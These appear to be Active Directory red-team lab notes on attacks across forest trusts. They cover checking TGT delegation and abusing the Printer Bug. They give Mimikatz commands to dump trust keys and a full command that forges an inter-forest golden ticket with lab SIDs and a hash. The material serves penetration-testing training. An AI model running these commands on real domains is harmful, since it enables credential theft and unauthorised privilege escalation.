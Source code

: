 > Recall the Printer bug and its abuse from a machine with Unconstrained Delegation

- We have used it to escalate privileges to Domain Admin and Enterprise Admin.
- It also works across a Two-way forest trust with TGT Delegation enabled!

> TGT Delegation is disabled by default and must be explicitly enabled across a trust for the trusted (target) forest.

To enumerate if TGTDelegation is enabled across a forest trust, run the below command from a DC 
 ```powershell
netdom trust trustingforest /domain:trustedforest /EnableTgtDelegation
```

In the lab, this is to be run on usvendor-dc
```powershell
netdom trust usvendor.local /domain:techcorp.local /EnableTgtDelegation
```

The PowerShell cmdlets of the ADModule seems to have a bug, the below command shows TGTDelegation set to False:
```powershell
Get-ADTrust -server usvendor.local -Filter *
```

> But when run from usvendor-dc, it shows TGTDelegation to be True



# Across Forest using Trust Tickets

> By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary.

- We can use the Trust Key, the same way as in Domain trusts but we can access only those resources which are explicitly shared with our current forest.
- Let's try to access a file share 'eushare' on euvendor-dc of euvendor.local forest from eu.local which is explicitly shared with Domain Admins of eu.local.

> *There is content about this in CRTP*

Like intra forest scenario, we require the trust key for the inter-forest trust:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

> We can also use any of the earlier discussed tools to extract trust keys.

An inter-forest TGT can be forged:
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt
	/target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```
